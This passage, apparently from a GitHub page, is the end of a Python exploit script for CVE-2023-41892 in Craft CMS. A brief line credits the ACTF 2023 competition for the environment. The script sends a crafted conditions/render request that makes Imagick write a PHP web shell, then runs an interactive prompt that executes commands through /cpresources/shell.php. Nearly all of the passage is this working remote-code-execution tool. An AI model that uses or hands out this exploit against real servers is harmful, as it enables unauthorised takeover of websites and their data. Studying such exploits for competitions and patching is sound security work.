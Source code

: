 ````
    match1 = re.search(pattern1, response.text, re.DOTALL)
    match2 = re.search(pattern2, response.text, re.DOTALL)
    return match1.group(1), match2.group(1)

def trigerImagick(tmpDir):
    
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data)    

def shell(cmd):
    response = requests.get(url + "/cpresources/shell.php", params={"cmd": cmd})
    match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)

    if match:
        extracted_text = match.group(1).strip()
        print(extracted_text)
    else:
        return None
    return extracted_text

if __name__ == "__main__":
    if(len(sys.argv) != 2):
        print("Usage: python CVE-2023-41892.py <url>")
        exit()
    else:
        url = sys.argv[1]
        print("[-] Get temporary folder and document root ...")
        upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
        tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir
        print("[-] Write payload to temporary file ...")
        try:
            writePayloadToTempFile(documentRoot)
        except requests.exceptions.ConnectionError as e:
            print("[-] Crash the php process and write temp file successfully")

        print("[-] Trigger imagick to write shell ...")
        try:
            trigerImagick(tmpDir)
        except:
            pass

        print("[-] Done, enjoy the shell")
        while True:
            cmd = input("$ ")
            shell(cmd)
```

Environment's from [ACTF 2023](https://adworld.xctf.org.cn/match/guide?event_hash=706a7a8c-65a0-11ee-ab28-000c29bc20bf)

![image](https://user-images.githubusercontent.com/77546253/278870010-5ca35b02-a475-448f-ad8e-dffaf12c5d30.png)

Result

![image](https://user-images.githubusercontent.com/77546253/278870066-79e0353b-df49-4918-ba46-ab1f005d13a5.png)

````